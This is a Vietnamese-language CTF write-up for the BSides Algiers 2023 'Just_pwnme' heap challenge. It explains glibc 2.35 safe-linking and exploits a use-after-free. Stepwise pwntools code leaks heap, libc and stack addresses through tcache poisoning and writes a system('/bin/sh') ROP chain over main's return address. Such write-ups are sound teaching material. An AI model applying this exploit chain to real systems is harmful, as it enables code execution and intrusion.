





# Bsides_algiers_2023 - Just_pwnme

# 1. Xem thông tin file
```
$ ./libc.so.6
GNU C Library (Ubuntu GLIBC 2.35-0ubuntu3.1) stable release version 2.35.
Copyright (C) 2022 Free Software Foundation, Inc.
This is free software; see the source for copying conditions.
There is NO warranty; not even for MERCHANTABILITY or FITNESS FOR A
PARTICULAR PURPOSE.
Compiled by GNU CC version 11.2.0.
libc ABIs: UNIQUE IFUNC ABSOLUTE
For bug reporting instructions, please see:
<https://bugs.launchpad.net/ubuntu/+source/glibc/+bugs>.

$ checksec chall_patched
[*] '/mnt/c/Users/C4t_f4t/Desktop/CTF-WriteUp/Competition/bsides_algiers_2023/pwn/Just_pwnme/chall_patched'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    RUNPATH:  b'.'

$ checksec libc.so.6
[*] '/mnt/c/Users/C4t_f4t/Desktop/CTF-WriteUp/Competition/bsides_algiers_2023/pwn/Just_pwnme/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

# 2. Cơ chế bảo vệ của libc 2.35 

Trong phiên bản `2.35 libc` này, nhà phát triển đã thay đổi cơ chế quản lý bộ nhớ, dẫn đến việc không còn sử dụng các classic hooks như `__malloc_hook` hay `__free_hook` nữa. 

Từ phiên bản `libc 2.32`, cơ chế liên kết an toàn thực hiện một số mã hóa xor trên `tcache`, `fastbin` next fp để ngăn chặn việc chiếm quyền điều khiển con trỏ. Đây là cốt lõi của cơ chế:

```
// https://elixir.bootlin.com/glibc/latest/source/malloc/malloc.c#L340
/* Safe-Linking:
   Use randomness from ASLR (mmap_base) to protect single-linked lists
   of Fast-Bins and TCache.  That is, mask the "next" pointers of the
   lists' chunks, and also perform allocation alignment checks on them.
   This mechanism reduces the risk of pointer hijacking, as was done with
   Safe-Unlinking in the double-linked lists of Small-Bins.
   It assumes a minimum page size of 4096 bytes (12 bits).  Systems with
   larger pages provide less entropy, although the pointer mangling
   still works.  */
#define PROTECT_PTR(pos, ptr) \
  ((__typeof (ptr)) ((((size_t) pos) >> 12) ^ ((size_t) ptr)))
```

` Kể từ khi phiên bản libc 2.32 được giới thiệu, cơ chế liên kết an toàn đã được thực hiện trên tcache và fastbin next fp bằng cách sử dụng một số phép mã hóa xor để ngăn chặn việc chiếm đoạt con trỏ

- Ta có thể hiểu cơ chế này như sau:



Tại đây ta đã free 2 chunk (mình tạm gọi là chunk_0 và chunk_1)

Mình free chunk_0 rồi free chunk_1

Khi free chunk_0 thì cơ chế này sẽ lấy địa chỉ chunk_0 `(0x55f5e783e7a0) >> 12 ^ (0x0)` và lưu vào forward ptr - chính là `0x000000055f5e783e`

- Kế đến, khi free chunk_1 thì cơ chế này sẽ lấy địa chỉ chunk_1 `(0x55f5e783e8a0) >> 12 ^ (0x55f5e783e7a0)` và lưu vào `forward ptr` - chính là `0x000055f0b8dd9f9e`

-> Nếu sau khi free mà ta vẫn sửa được `forward ptr` thì sẽ chuyển hướng được đến nơi khác

VD: chunk_1 --> chunk_0 --> 0x0

Vì tại `forward ptr` của chunk_1 chứa `0x000055f0b8dd9f9e` là kết quả của `(0x55f5e783e8a0) >> 12 ^ (0x55f5e783e7a0)` cho nên thay vì xor với `0x55f5e783e7a0`

thì ta sẽ xor với 1 địa chỉ nào đó ta cần trỏ đến để ghi đè 

-> `forward ptr` của chunk_1 sẽ chứa giá trị sau khi xor tương ứng ấy

-> `Tcache Poisoning` là kỹ thuật để khai thác ở đây

# 3. Phân tích

Nhìn vào mã C của chương trình:

Hàm `choise()`:
```
size_t choice(size_t max){
    char input[10];
    size_t val = 0;
    fgets(input, 10, stdin);
    val = atoll(input);
    if(val > max){
        printf("Mmh nope %ld", val);
        exit(-1);
    }
    return val;
}
```

Hàm `create()`:
```
#define INDEX 1
#define SIZE 0x100
char* Allocation[2];
size_t Size[2];

printf("[*] Index : ");
index = choice(INDEX);
printf("[*] Size : ");
Size[index] = choice(SIZE);
Allocation[index] = malloc(Size[index]);
printf("[*] Data : ");
read(0, Allocation[index], Size[index]);
break;
```

Ở đây tại hàm `choice()` sẽ kiểm tra:
+ Nếu `index` mà ta nhập vào lớn hơn 1 thì sẽ exit chương trình nhưng không kiểm tra xem con trỏ `Allocation[index]` đã trỏ tới chunk nào hay chưa

+ Nếu số lượng cấp phát ta yêu cầu lớn hơn 0x100 thì sẽ exit chương trình

-> Ta có thể sử dụng 1 `index` để `create()` nhiều chunk 

Hàm `delete()`:
```
printf("[*] Index : ");
index = choice(INDEX);
free(Allocation[index]);
break;
```

Hàm này sẽ `free()` 1 con trỏ `Allocation[index]` nhưng không gán null vào con trỏ đó 

-> Use-After-Free

***Mình sẻ sử dụng kịch bản sau:***

- STEP_1:   Sử dụng UAF để leak heap_base

- STEP_2:   Sau khi leak được heap_base mình sẽ lợi dụng hàm `edit()`để sửa nội dung chunk tại `forward ptr` để khai thác cơ chế bảo vệ xor để free được 1 chunk với chunk size 0x500 khiến nó bị đưa vào unsorted bin và leak libc

- STEP_3:   Sử dụng tương tự step_2 để leak stack

- STEP_4:   Sử dụng tiếp kỹ thuật `Tcache Poisoning` để ghi ROP chain vào ret_addr sau khi leak được cả libc lẫn stack

# 4. Khai thác

- STEP_1:   Sử dụng UAF để leak heap_base

```
payload = p64(0)*3 + p64(0x501)
create(0, 0xf8, payload)

payload = (p64(0x0)+p64(0x101)) * 3
for i in range(5):
    create(0, 0xf8, payload)
create(1, 0xf8, b"1")
free(0)
show(0)
heap = int.from_bytes(p.recv(5), "little") << 4*3 
print("[+]Heap_base:    ", hex(heap))
```

Ở phần này mình set-up sẵn bao gồm:

1 chunk có fake chunk size với size là `0x101` và fake size là `0x501`

5 chunk với chunk size là `0x101`

Và thêm 1 chunk nữa để mình thực hiện kỹ thuật `Tcache Poisoning` lát nữa mình sẽ nói ở phần 2

Do cơ chế xor `[(chunk_addr) >> 12 ] ^ forward_ptr` để lưu lại vào `forward_ptr` của chính nó sau khi free cho nên ở đây mình sẽ thấy được `(0x558bb8c197a0 >> 12) ^ 0` = `0x0000000558bb8c19` và lưu lại tại chunk's data





Sử dụng options `2` do ở đây không check xem chunk đã được free chưa mà trực tiếp show và leak được địa chỉ heap

- STEP_2:   Leak libc

```
payload=p64((heap+0x8a0)>>12^(heap+0x2c0))
free(1)
edit(1, payload)
create(0, 0xf8, b"a"*0xf8)
create(0, 0xf8, b"b"*0xf8)
free(0)
show(0)
libc.address = int.from_bytes(p.recv(6), "little")  - 2202848
print("[+]Libc_base:    ", hex(libc.address))
```

Do ở bài này chỉ cấp cho ta 2 con trỏ heap nên mình đã tạo 1 đống `chunk_0` và 1 `chunk_1` để có thể `free()` 2 chunk này 

Ok sau khi free 2 chunk ta để ý đến `tcache`

```
tcachebins
0x100 [  2]: 0x5642286ff8a0 —▸ 0x5642286ff7a0 ◂— 0x0
```

Và chunk_1 khi đó

```
0x5642286ff890  0x0000000000000000      0x0000000000000101      ................
0x5642286ff8a0  0x000056474c4d715f      0xe105ed6c52f5c1e7      _qMLGV.....Rl...         <-- tcachebins[0x100][0/2]
```

Giờ chunk_1 lưu `forward_ptr` có giả trị `0x000056474c4d715f` sau khi xor như vậy mình chỉ cần tính toán và sửa lại ở đó và dùng hàm `edit()` thì ta sẽ kiếm soát con trỏ tiếp theo mà `tcache` trỏ vào

Ở đây mình muốn nó trỏ vào phần data của fake chunk ban nãy mình đã tạo và sau khi tạo như vậy chương trình sẽ hiểu là chunk này có size là `0x501` và khi free nó thì nó trả về  `unsortedbin` và lưu địa chỉ `main_arena+96` tại `forward_ptr`

Do chunk mình tạo ở vị trị `heap_base + 8a0` nên ta sẽ tính toán và dùng hàm `edit()` để sửa vị trí chunk free tiếp theo như sau:
```
payload=p64((heap+0x8a0)>>12^(heap+0x2c0))
```
với `heap+0x2c0` là địa chỉ của fake chunk's data

```
tcachebins
0x100 [  2]: 0x560e534248a0 —▸ 0x560e534242c0 ◂— 0x560e53424
```

Ok, sau khi đã kiểm soát được `tcache` thì mình sẽ tạo lại 2 chunk để gán con trỏ `Allocation` cho 2 chunk ấy và chunk mình tạo thứ 2 ấy chính là fake chunk. Mình chỉ cần `free()` nó và dùng option `show()` để leak libc

# STEP_3:   Leak stack

```
create(0, 0x28, b"a")
create(1, 0x28, b"a")
free(0)
free(1)
payload = p64(((heap+0x330)>>12)^(libc.sym['environ']-0x10))
edit(1, payload)
create(0, 0x28, b"A"*0x10)
create(0, 0x28, b"B"*0x10)
show(0)
p.recvuntil(b"B"*0x10)
stack       = int.from_bytes(p.recv(6), "little")
ret_addr    = stack - 288
print("[+]Stack:   ", hex(stack))
print("[+]Ret_addr:     ", hex(ret_addr))
```

Ở đây mình làm tương tự như bước 2 đó là sửa con trỏ và tạo 1 fake chunk tại vị trí có chứa `stack_addr` và leak stack có sẵn tại đó

Mình có tìm thấy 1 nhiều địa chỉ chứa giá trị stack nhưng địa chỉ phù hợp đó là `libc.sym['environ']` do trước đó 16 bytes = 0 thì fake chunk không bị lỗi và mình cũng không bị set data thành (null). Mình đã fake `forward_ptr` để nó trỏ đến vị trí trước `libc.sym['environ']` 1 khoảng 0x10 bytes do ở đây 10 bytes này null và phần data cũng null

Trước đó mình đã thử nhiều size khác nhau nhưng đều bị lỗi `malloc(): unaligned tcache chunk detected`

Sau đó mình có xem source GLIBC 2.35 và nhận ra hàm tcache_get() được sử dụng để lấy một khối bộ nhớ từ bộ nhớ đệm cục bộ của luồng, và kiểm tra xem khối đó có được căn chỉnh đúng cách hay không. Nếu khối bộ nhớ không được căn chỉnh đúng cách, một thông báo lỗi sẽ được in ra.



Công việc còn lại như bước 2 và `show()` để leak stack và tính toán `saved_rip` của main thôi

# STEP_4:   Ghi rop_chain vào `saved_rip` của main

```
create(0, 0x48, b"a")
create(1, 0x48, b"a")
free(0)
free(1)

payload = p64(((heap+0x370)>>12)^(ret_addr-0x8))
edit(1, payload)

ret = libc.address + 0x0000000000029cd6
pop_rdi_ret = libc.address + 0x000000000002a3e5

payload = flat(
    p64(0xabcdef),
    ret,
    pop_rdi_ret,
    next(libc.search(b'/bin/sh')),
    libc.sym['system']
    )

create(0, 0x48, b"A"*0x10)
create(0, 0x48, payload)

p.sendlineafter(b"[*] choice :", b"4")
```

Bước này cũng giống bước 2 và 3

Trỏ forward_ptr đến `saved_rip` của main và dùng hàm `edit()` để sửa giá trị tại đây thành ROP_chain và sử dụng option `4` để đến ret của main và get_shell thôi

